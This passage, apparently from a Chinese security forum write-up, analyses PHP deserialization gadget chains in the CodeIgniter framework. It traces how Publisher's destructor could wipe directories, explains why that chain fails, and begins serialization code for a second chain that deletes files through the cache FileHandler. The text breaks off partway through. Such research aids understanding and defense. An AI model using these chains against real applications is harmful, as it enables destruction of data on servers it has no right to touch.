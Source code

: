 ```php
Publisher：construc.helper(['filesystem'])->destruct()-> wipeDirectory()->delete_files()
```

`detele_files()`函数 需要由引入 `helper(['filesystem'])`;  
思路：通过 `MemcachedHandler` 任意属性 调用`new Publisher`触发 `helper('filesystem')`引入`delete_files()`类

#### 分析

先看看几个重要的方法（简化）

##### `Publisher`

`_construct方法()`

```php
helper(['filesystem']);
```

`_destruct()方法`

```php
public function __destruct()
    {
            self::wipeDirectory($this-&gt;scratch);
    }
```

`wipeDirectory`方法

```php
private static function wipeDirectory(string $directory): void
    {
            $attempts = 10;

           while ((bool) $attempts &amp;&amp; ! delete_files($directory, true, false, true)) {
                $attempts--;
            }
            @rmdir($directory);
    }
```

#### 失败原因

显示delete\_files()不存在  
![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/10/attach-fc1c7c2d8d786770807846398ede8f073f0ee827.png)

#### 总结

反序列化过程，不会创建对象。不管序列化中new在何处，也只是告诉解析器 new这个位置 需要替换 该类型对象的属性。

反序列化原理：创建空对象，把属性值传递进去（本质，属性替换）

### 链子二

#### 序列化代码

```php
&lt;?php
//=======实现delete方法有，unlink(this-&gt;$path.$this-&gt;prefix.$lockkey)
namespace CodeIgniter\Cache\Handlers;
class FileHandler
{
    public $prefix;
    public $path;
    public function __construct()
    {
        $this-&gt;prefix='';
        $this-&gt;path='';
    }
```